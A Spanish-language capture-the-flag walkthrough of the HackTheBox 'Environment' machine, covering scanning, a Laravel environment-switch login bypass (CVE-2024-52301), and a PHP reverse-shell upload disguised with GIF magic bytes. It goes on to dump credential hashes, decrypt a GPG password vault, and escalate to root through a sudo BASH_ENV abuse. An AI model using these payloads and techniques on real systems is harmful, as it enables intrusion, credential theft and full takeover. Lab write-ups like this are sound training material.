

# Environment

## Nmap 

```bash
# Nmap 7.94SVN scan initiated Sat Jul 26 14:17:05 2025 as: nmap -p22,80 -sCV -oN target 10.10.11.67
Nmap scan report for 10.10.11.67
Host is up (0.10s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u5 (protocol 2.0)
| ssh-hostkey: 
|   256 5c:02:33:95:ef:44:e2:80:cd:3a:96:02:23:f1:92:64 (ECDSA)
|_  256 1f:3d:c2:19:55:28:a1:77:59:51:48:10:c4:4b:74:ab (ED25519)
80/tcp open  http    nginx 1.22.1
|_http-title: Did not follow redirect to http://environment.htb
|_http-server-header: nginx/1.22.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jul 26 14:17:15 2025 -- 1 IP address (1 host up) scanned in 10.58 seconds
```

## http

```bash
whatweb http://environment.htb/
http://environment.htb/ [200 OK] Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[nginx/1.22.1], HttpOnly[laravel_session], IP[10.10.11.67], Laravel, Script, Title[Save the Environment | environment.htb], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], nginx[1.22.1]
```
### Fuzzing

```bash
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://environment.htb/ -t 100 -x php,txt,xml
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 4602]
/login                (Status: 200) [Size: 2391]
/upload               (Status: 405) [Size: 244852]
/storage              (Status: 301) [Size: 169] [--> http://environment.htb/storage/]
/up                   (Status: 200) [Size: 2126]
/logout               (Status: 302) [Size: 358] [--> http://environment.htb/login]
/vendor               (Status: 301) [Size: 169] [--> http://environment.htb/vendor/]
/robots.txt           (Status: 200) [Size: 24]
/build                (Status: 301) [Size: 169] [--> http://environment.htb/build/]
/mailing              (Status: 405) [Size: 244854]
```

- /index.php
  - Página principal

#### /upload


- Laravel 11.30.0 ---> **CVE-2024-52301** ---> se puede cambiar el entorno de la app mediante la query

#### /login


- Formulario de incio de session
  - posbile inyeccion sql o nosql? 
  - salida reflejada, posible XSS? ---> Al parecer la entrada se interpreta solo como texto.

- Al enviar el formulario de login, si enviamos la variable `remember` con un valor diferente de true o false nos da error y nos muestra información sensible:

```bash
_token=tCNAdTBEvkaKtzJPSLiyGNo7RGhus7ddYmfoMqyc&email=test%40test.cm&password=test&remember=1
```


- Llama la atención el fragmento de código resaltado:
  - Si el entorno de la app es `preprod`(preproducción), la app nos inicia sesión automáticamente como el usuario con id=1 (admin?)

- Explotando la vulnerabilidad **CVE-2024-52301** podemos cambiar el entorno a `preprod` y automaticamente iniciariamos sesión como admin

- Al enviar el formulario de inicio de sesión, interceptamos la petición y modificamos nuestra url para que quede como: `/login?--env=preprod`


`
- En la pestaña **profiles**, sistema de subida de archivos:



- Se pueden subir archivos malisioso?
- Si vemos el link de la image que aparece por defecto podemos ver que se estan guardando en la ruta `/storage/files/'img'`

##### subida de archivos

- Archivo a subir:

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'");
?>
```

- resultado:

```bash
{"error":{"message":"Invalid file detected"}}
```

- se esta comprobando el archivo

- Se puede burlar? 
  - Después de varias pruebas parece que comprueba los `magic bytes` del archivo.

- Agregamos los `magic bytes` de un archivo gif a 'rce.php' con `printf`:

```bash
(printf '\x47\x49\x46\x38\x37\x61'; cat rce.php) > reverse.php
```

```bash
------geckoformboundaryb0550b0167eb54be6b6b010e651f1cf9
Content-Disposition: form-data; name="_token"

E3hPRw7z9RCThp7t549pne2XXmqaIcWOnGfOXyZj
------geckoformboundaryb0550b0167eb54be6b6b010e651f1cf9
Content-Disposition: form-data; name="upload"; filename="reverse.php"
Content-Type: image/jpg

GIF87a<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.12/1234 0>&1'");
?>

------geckoformboundaryb0550b0167eb54be6b6b010e651f1cf9--
```

- El archivo da error, parece que valida tambien la extensión, ya que si la cambiamos a png, se sube correctamente
- Al cambiar la extensión a `.php4`se sube correctamente, pero no lo ejecuta
- Al añadir un `.` al final también se sube y se ejecuta exitosamente.


## Escalada de Privilegios

- Archivo `laravel.log`, en esta version de laravel, puede contener credenciales.

```bash
www-data@environment:~/app/storage/logs$ ls
laravel.log
```

- Archivo de bases de datos

```bash
www-data@environment:~/app/database$ ls
database.sqlite
factories
migratios
seeders
```

- Encontramos credenciales en la base de datos
```bash
sqlite> .tables
cache                  jobs                   sessions             
cache_locks            mailing_list           users                
failed_jobs            migrations           
job_batches            password_reset_tokens
sqlite> select * from users;
1|Hish|hish@environment.htb||$2y$12$QPbeVM.u7VbN9KCeAJ.JA.WfWQVWQg0LopB9ILcC7akZ.q641r1gi||2025-01-07 01:51:54|2025-01-12 01:01:48|hish.png
2|Jono|jono@environment.htb||$2y$12$i.h1rug6NfC73tTb8XF0Y.W0GDBjrY5FBfsyX2wOAXfDWOUk9dphm||2025-01-07 01:52:35|2025-01-07 01:52:35|jono.png
3|Bethany|bethany@environment.htb||$2y$12$6kbg21YDMaGrt.iCUkP/s.yLEGAE2S78gWt.6MAODUD3JXFMS13J.||2025-01-07 01:53:18|2025-01-07 01:53:18|bethany.png
```
- Formato de hash `bcrypt`, muy lento de crackear


### Directorio `/home/hish`

- Tenemos permisos
- Encontramos la primera flag
```bash
www-data@environment:/home/hish$ ls
backup
user.txt
```

- En el directorio `home/hish/backup/`, encontramos un archivo encriptado `keyvault.gpg`
```bash
www-data@environment:/home/hish/backup$ ls
keyvault.gpg
```

- Para descifrar este archivo, copiamos el contenido del directorio `/home/hish/.gnupg/`, y los remplazamos por el que nos creó la herramienta `gpg` en nuestro directorio `/home/'user'`

```bash
❯ tree
.
├── private-keys-v1.d
│   ├── 3B966A35D4A711F02F64B80E464133B0F0DBCB04.key
│   └── C2DF4CF8B7B94F1EEC662473E275A0E483A95D24.key
├── pubring.kbx
└── trustdb.gpg

2 directories, 4 files
```

- Ejecutamos el comando `gpg -d keyvault.gpg` y obtenemos el contenido

```bash
gpg -d keyvault.gpg
gpg: cifrado con clave de 2048 bits RSA, ID B755B0EDD6CFCFD3, creada el 2025-01-11
      "hish_ <hish@environment.htb>"
PAYPAL.COM -> Ihaves0meMon$yhere123
ENVIRONMENT.HTB -> marineSPm@ster!!
FACEBOOK.COM -> summerSunnyB3ACH!!
```

- Con las credenciales anteriores nos conectamos por ssh como el usuario `hish`

### Obteniendo usuario `Root`

- Miramos permisos sudo con `sudo -l`
```bash
hish@environment:~$ sudo -l
Matching Defaults entries for hish on environment:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, env_keep+="ENV BASH_ENV", use_pty

User hish may run the following commands on environment:
    (ALL) /usr/bin/systeminfo
```

- al ejecutarlo nos muestra información del sistema
- no parece aceptar parametros para ver ayuda ni nada

- Al abrirlo nos damos cuenta que es un script de bash
```bash
#!/bin/bash
echo -e "\n### Displaying kernel ring buffer logs (dmesg) ###"
dmesg | tail -n 10

echo -e "\n### Checking system-wide open ports ###"
ss -antlp

echo -e "\n### Displaying information about all mounted filesystems ###"
mount | column -t

echo -e "\n### Checking system resource limits ###"
ulimit -a

echo -e "\n### Displaying loaded kernel modules ###"
lsmod | head -n 10

echo -e "\n### Checking disk usage for all filesystems ###"
df -h
```

- El script nos permite ejecutar algunos comandos con permisos `root`
- No utiliza rutas absolutas, posible **path hijacking**

```bash
hish@environment:~$ export PATH=/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```
- agregamos directorio `/tmp/` al path

- creamos archivo mount en `/tmp/` y le damos permisos de ejecución
```bash
hish@environment:~$ nano /tmp/mount
hish@environment:~$ cat /tmp/mount
#!/bin/bash

chmod +s /usr/bin/bash
hish@environment:~$ chmod +x /tmp/mount 
```

- Al ejecutar el archivo no pasa, nada ya que como muestra la salida de `sudo -l`, el path se esta reiniciano por seguridad
- Luego de inspeccionar mas detenidamente, vemos que la vairable de entorno bash_env no se reinicia por lo que podemos aprovecharnos de esta

```bash
hish@environment:~$ export BASH_ENV=/tmp/mount 
```

- Al ejecutar el script con sudo, le añadimos permisos suid a `/usr/bin/bash`
```bash
hish@environment:~$ ls -l /usr/bin/bash
-rwsr-sr-x 1 root root 1265648 Mar 30  2024 /usr/bin/bash
```

- Ejecutamos una bash con privilegios
```bash
hish@environment:~$ bash -p
bash-5.2# whoami
root
```

- Navegamos al directorio de root y obtenemos la flag.
```bash
bash-5.2# cd /root/
bash-5.2# ls
root.txt  scripts
```
  
